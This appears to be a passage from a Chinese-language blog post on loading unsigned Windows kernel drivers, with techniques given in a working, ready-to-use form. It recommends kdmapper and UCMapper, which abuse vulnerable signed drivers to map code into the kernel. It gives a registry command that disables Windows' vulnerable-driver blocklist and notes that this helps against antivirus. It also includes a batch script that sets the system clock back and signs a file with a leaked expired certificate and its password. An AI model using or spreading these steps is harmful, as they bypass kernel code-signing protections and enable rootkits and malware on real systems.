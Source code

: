 ```bash

       return Output[0];
```

后面就是通过总线地址转虚拟地址了，过程比较复杂就不过多描写。通过映射内存后修改 gOption 的值即可

#### 内存映射

内存映射的原理其实很简单，就是 PELOAD，将驱动在内存展开后 call 入口地址即可。但是需要注意的是不能够使用驱动对象。

GITHUB 上有个项目非常出名，叫做 kdmapper：

> [https://github.com/TheCruZ/kdmapper](https://github.com/TheCruZ/kdmapper)

单该项目存在一个问题就是 Windows22h2 无法使用，其原因是 Windows11 将 iqvw64e.sys 拉黑了，解决办法也很简单就是关闭目标计算机的黑名单校验：

```bash
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\CI\Config" /f /t REG_DWORD /v VulnerableDriverBlocklistEnable /d 0
```

当然如果说关闭校验对于存在 360 等来说比较困难也可以考虑使用 nvaudio.sys：

> [https://github.com/gmh5225/UCMapper](https://github.com/gmh5225/UCMapper)

### 过期签名加载

使用过期签名来加载驱动需要修改操作系统时间，修改至签名过期之前即可：

```bash
@echo off

cd %~dp0

@if "x%1" EQU "x" (goto help) else (goto sign)
:help
@echo Usage: sign.bat filename
@echo Note:  Original file will be overrided by the signed one, no backup
@goto :end
:sign

@echo Sign File %1
set message=%DATE%
date 2017.03.01
signtool.exe sign /v /ac CSC3-2010.crt /f current_cert.pfx /p nv1d1aRules /t "http://timestamp.digicert.com" %1
date %message%
:end
```
